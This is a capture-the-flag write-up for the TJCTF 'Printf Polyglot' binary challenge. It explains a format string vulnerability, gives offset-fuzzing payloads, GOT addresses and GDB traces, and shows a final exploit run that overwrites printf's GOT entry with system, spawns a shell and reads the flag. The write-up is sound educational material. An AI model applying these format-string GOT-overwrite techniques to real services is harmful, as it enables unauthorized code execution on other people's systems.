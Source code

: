 # Printf Polyglot
Binary

## Challenge 

Written by nthistle

Security Consultants Inc. just developed a new portal! We managed to get a hold of the source code, and it doesn't look like their developers know what they're doing.

nc p1.tjctf.org 8003

## Solution

We have a 64-bit executable. Look at the source code and the user input is directly placed into printf(), thus it is vulnerable to format string attack

	printf("I have your email as:\n");
	printf(email);

From here we see that there is also a segfault placed in on purpose. This means that no ROP is possible and we need to execute the format string such that it can spawn a shell here.

	void newsletter() {
	   printf("Thanks for signing up for our newsletter!\n");
	   printf("Please enter your email address below:\n");
	   
	   char email[256];
	   fgets(email, sizeof email, stdin);
	   printf("I have your email as:\n");
	   printf(email);
	   printf("Is this correct? [Y/n] ");
	   char confirm[128];
	   fgets(confirm, sizeof confirm, stdin);
	   if (confirm[0] == 'Y' || confirm[0] == 'y' || confirm[0] == '\n') {
	      printf("Great! I have your information down as:\n");
	      printf("Name: Evan Shi\n");
	      printf("Email: ");
	      printf(email);
	   } else {
	      printf("Oops! Please enter it again for us.\n");
	   }
	   
	   int segfault = *(int*)0;
	   // TODO: finish this method, for now just segfault,
	   // we don't want anybody to abuse this
	}

If you notice, printf() is called twice. If we were to overwrite the GOT entry of printf() with system(), we will be able to have this...


	fgets(email, sizeof email, stdin);
	printf("I have your email as:\n");
	printf(email);

	// after overwriting printf->system
	if (confirm[0] == 'Y' || confirm[0] == 'y' || confirm[0] == '\n') {
	  system("Great! I have your information down as:\n");
	  system("Name: Evan Shi\n");
	  system("Email: ");
	  system(email);

Hence, we can place a 'sh;#' string in the buffer and execute a format string attack to overwrite the GOT entry.

### Find buffer offset

Fuzz for the offset using this payload

	ABCD1234 1(%016lx) 2(%016lx) 3(%016lx) 4(%016lx) 5(%016lx) 6(%016lx) 7(%016lx) 8(%016lx) 9(%016lx) 10(%016lx) 11(%016lx) 12(%016lx) 13(%016lx) 14(%016lx) 15(%016lx) 16(%016lx) 17(%016lx) 18(%016lx) 19(%016lx) 20(%016lx) 21(%016lx) 22(%016lx) 23(%016lx) 24(%016lx) 25(%016lx) 26(%016lx) 27(%016lx) 28(%016lx) 29(%016lx) 30(%016lx) 31(%016lx) 32(%016lx) 33(%016lx) 34(%016lx) 35(%016lx) 36(%016lx) 37(%016lx) 38(%016lx) 39(%016lx) 40(%016lx)

From here we see the offset is at 24 where we see the start of the buffer `24(4847464544434241)`.

	# nc p1.tjctf.org 8003
	Welcome to the brand new Security Consultants Inc. portal!
	What would you like to do?
	1.) View the Team!
	2.) Check the date.
	3.) Sign up for our newsletter!
	4.) Report a bug.
	x.) Exit.
	3
	Thanks for signing up for our newsletter!
	Please enter your email address below:
	ABCDEFGH 1(%lx) 2(%lx) 3(%lx) 4(%lx) 5(%lx) 6(%lx) 7(%lx) 8(%lx) 9(%lx) 10(%lx) 11(%lx) 12(%lx) 13(%lx) 14(%lx) 15(%lx) 16(%lx) 17(%lx) 18(%lx) 19(%lx) 20(%lx) 21(%lx) 22(%lx) 23(%lx) 24(%lx) 25(%lx) 26(%lx) 27(%lx) 28(%lx) 29(%lx) 30(%lx) 31(%lx) 32(%lx) 33(%lx) 34(%lx) 35(%lx) 36(%lx) 37(%lx) 38(%lx) 39(%lx) 40(%lx)

	I have your email as:
	ABCDEFGH 1(7f4ddaef37e3) 2(7f4ddaef48c0) 3(7f4ddac17154) 4(15) 5(7f4ddaef48d0) 6(1000) 7(7f4ddab851aa) 8(9) 9(6a702f) 10(1) 11(c1ff) 12(0) 13(0) 14(0) 15(1000) 16(0) 17(0) 18(0) 19(0) 20(0) 21(0) 22(0) 23(0) 24(4847464544434241) 25(2029786c25283120) 26(332029786c252832) 27(28342029786c2528) 28(2528352029786c25) 29(6c2528362029786c) 30(786c252837202978) 31(29786c2528382029) 32(2029786c25283920)Is this correct? [Y/n] Oops! Please enter it again for us.

We can test it

	 $ nc p1.tjctf.org 8003
	Please enter your email address below:
	ABCD %24$08x        
	I have your email as:
	ABCD 44434241

Now, we need to place an address we want to write to in the buffer. Using the offset found, we can use format string to select it and write to it using `%n` or by selecting the offset at `%24$n`.

---

### ELF Addresses


##### PLT table addresses

From disassembly

	j_printf:    // printf@plt
	00000000004006f0  jmp qword [printf@GOT]  

	j_system:    // system@plt
	00000000004006e0  jmp qword [system@GOT] 

##### GOT table addresses

From disassembly

	system@GOT:        // system
	0000000000602040         dq         0x0000000000603028
	printf@GOT:        // printf
	0000000000602048         dq         0x0000000000603030    

Alternatively, use objdump

	# objdump -R ./printf_polyglot 

	./printf_polyglot:     file format elf64-x86-64

	DYNAMIC RELOCATION RECORDS
	OFFSET           TYPE              VALUE 
	0000000000601ff0 R_X86_64_GLOB_DAT  __libc_start_main@GLIBC_2.2.5
	0000000000601ff8 R_X86_64_GLOB_DAT  __gmon_start__
	0000000000602080 R_X86_64_COPY     stdout@@GLIBC_2.2.5
	0000000000602090 R_X86_64_COPY     stdin@@GLIBC_2.2.5
	0000000000602018 R_X86_64_JUMP_SLOT  putchar@GLIBC_2.2.5
	0000000000602020 R_X86_64_JUMP_SLOT  puts@GLIBC_2.2.5
	0000000000602028 R_X86_64_JUMP_SLOT  __stack_chk_fail@GLIBC_2.4
	0000000000602030 R_X86_64_JUMP_SLOT  setresgid@GLIBC_2.2.5
	0000000000602038 R_X86_64_JUMP_SLOT  setbuf@GLIBC_2.2.5
	0000000000602040 R_X86_64_JUMP_SLOT  system@GLIBC_2.2.5
	0000000000602048 R_X86_64_JUMP_SLOT  printf@GLIBC_2.2.5
	0000000000602050 R_X86_64_JUMP_SLOT  fgets@GLIBC_2.2.5
	0000000000602058 R_X86_64_JUMP_SLOT  strcmp@GLIBC_2.2.5
	0000000000602060 R_X86_64_JUMP_SLOT  getegid@GLIBC_2.2.5

---

I did lots of trials and errors, which is difficult to explain. However, these are some snippets of my debugging process.

In GDB, we can see the GOT table entry.

Before overwriting

	(gdb) x/40x 0x0602040 
	0x602040:	0x004006e6	0x00000000	0x004006f6	0x00000000
	0x602050:	0xf7e79990	0x00007fff	0x00400716	0x00000000

After overwriting with 0x14

	(gdb) x/40x 0x0602040 
	0x602040:	0x004006e6	0x00000000	0x00000014	0x00007fff
	0x602050:	0xf7e79990	0x00007fff	0x00400716	0x00000000

Realise that `0x004006f6` was replaced with `0x00000014`. It was successfully written, but only 4 bytes: `0x00000014 0x00007fff`. Whereas in 64-bits we are dealing with 8 byte addresses.

To solve this replace `%28$n` with `%28$ln` to write 8 bytes

Try again overwriting with 0x14, using `%ln`.

	(gdb) x/40x 0x0602040 
	0x602040:	0x004006e6	0x00000000	0x00000014	0x00000000
	0x602050:	0xf7e79990	0x00007fff	0x00400716	0x00000000

---

More explanation of how I formed the payload is in my script.

> [format_string.py](format_string.py)

Final exploit

	# (python format_string.py; cat) | nc p1.tjctf.org 8003

	Welcome to the brand new Security Consultants Inc. portal!
	What would you like to do?
	1.) View the Team!
	2.) Check the date.
	3.) Sign up for our newsletter!
	4.) Report a bug.
	x.) Exit.
	Thanks for signing up for our newsletter!
	Please enter your email address below:
	I have your email as:
	sh;# 

	Great! I have your information down as:
	Name: Evan Shi
	sh: 1: Email:: not found
	ls -la
	total 44
	dr-xr-xr-x 1 app  app   4096 Apr  5 16:03 .
	drwxr-xr-x 1 root root  4096 Apr  2 22:41 ..
	-r--r--r-- 1 app  app    220 Apr  4  2018 .bash_logout
	-r--r--r-- 1 app  app   3771 Apr  4  2018 .bashrc
	-r--r--r-- 1 app  app    807 Apr  4  2018 .profile
	-r-xr-xr-x 1 root root    33 Apr  2 22:22 flag.txt
	-r-xr-xr-x 1 root root 13072 Apr  5 16:03 printf_polyglot
	-r-xr-xr-x 1 root root    77 Apr  2 22:22 wrapper
	cat flag.txt
	tjctf{p0lygl0t_m0r3_l1k3_p0lynot}

References used for Format String Attack:

-https://samsclass.info/127/proj/p6-fs.htm
-https://www.pwndiary.com/write-ups/angstrom-ctf-2018-personal-letter-write-up-pwn160/
-https://nuc13us.wordpress.com/2015/09/04/format-string-exploit-overwrite-got/
-https://www.ret2rop.com/2018/10/format-strings-got-overwrite-remote.html
-https://github.com/zst123/picoctf-2018-writeups/tree/master/Solved/authenticate

## Flag

	tjctf{p0lygl0t_m0r3_l1k3_p0lynot}
